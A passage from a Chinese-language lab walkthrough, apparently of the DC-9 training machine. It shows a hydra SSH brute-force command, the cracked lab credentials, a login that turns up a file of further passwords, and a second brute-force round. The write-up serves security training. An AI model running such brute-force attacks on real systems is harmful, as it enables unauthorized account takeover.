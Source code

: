 这样22端口就open了

![image-20240301163033497](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240301163033497.png)

#### 爆破SSH账户

接着就开始爆破ssh

```
hydra -L user.txt -P pass.txt ssh://192.168.238.52
```

```shell
[22][ssh] host: 192.168.238.52   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.238.52   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.238.52   login: janitor   password: Ilovepeepee
```

这里前两个用户里都没有东西，我就直接登第三个账号

```shell
ssh janitor@192.168.238.52
```

```shell
janitor@dc-9:~$ ls -al
total 16
drwx------  4 janitor janitor 4096 Mar  1 18:34 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 janitor janitor 4096 Mar  1 18:34 .gnupg
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin
janitor@dc-9:~$ cd .secrets-for-putin/
janitor@dc-9:~/.secrets-for-putin$ ls -al
total 12
drwx------ 2 janitor janitor 4096 Dec 29  2019 .
drwx------ 4 janitor janitor 4096 Mar  1 18:34 ..
-rwx------ 1 janitor janitor   66 Dec 29  2019 passwords-found-on-post-it-notes.txt
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

又发现了一些密码，复制到pass.txt，再次爆破看看，命令同上

发现了一个新的用户

```
[22][ssh] host: 192.168.238.52   login: fredf   password: B4-Tru3-001
```

![image-20240301164349150](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240301164349150.png)
